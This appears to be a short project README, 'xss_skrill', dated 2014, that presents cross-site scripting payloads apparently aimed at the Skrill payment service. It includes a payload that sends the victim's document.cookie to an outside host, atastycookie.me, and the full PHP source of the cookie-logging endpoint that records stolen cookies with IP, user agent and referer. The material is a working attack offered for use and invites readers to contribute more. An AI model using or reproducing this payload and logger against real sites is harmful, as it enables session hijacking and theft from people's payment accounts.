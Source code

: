xss_skrill
==========

*xss work: 9,10,11.10.2014*

**Demo:** http://atastycookie.me/skrill/


Write you example of XSS and we post it here :)

1) `"><script>alert()</script>` 

2) `"><script language= "JavaScript">document.location="http://atastycookie.me/skrill/xss.php?cookie=" + document.cookie;document.location="http://atastycookie.me"</script>`

    <?php 
    
    function GetIP() 
    { 
    	if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    		$ip = getenv("HTTP_CLIENT_IP"); 
    	else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    		$ip = getenv("HTTP_X_FORWARDED_FOR"); 
    	else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) 
    		$ip = getenv("REMOTE_ADDR"); 
    	else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    		$ip = $_SERVER['REMOTE_ADDR']; 
    	else 
    		$ip = "unknown"; 
    	return($ip); 
    } 
    
    function logData() 
    { 
    	$ipLog="log.txt"; 
    	$cookie = $_SERVER['QUERY_STRING']; 
    	$register_globals = (bool) ini_get('register_gobals'); 
    	if ($register_globals) $ip = getenv('REMOTE_ADDR'); 
    	else $ip = GetIP(); 
    
    	$rem_port = $_SERVER['REMOTE_PORT']; 
    	$user_agent = $_SERVER['HTTP_USER_AGENT']; 
    	$rqst_method = $_SERVER['METHOD']; 
    	$rem_host = $_SERVER['REMOTE_HOST']; 
    	$referer = $_SERVER['HTTP_REFERER']; 
    	$date=date ("l dS of F Y h:i:s A"); 
    	$log=fopen("$ipLog", "a+"); 
    
    	if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog)) 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE:  $cookie <br>"); 
    	else 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host |  Agent: $user_agent | METHOD: $rqst_method | REF: $referer |  DATE: $date | COOKIE:  $cookie \n\n"); 
    	fclose($log); 
    } 
    
    logData(); 
    
    ?>
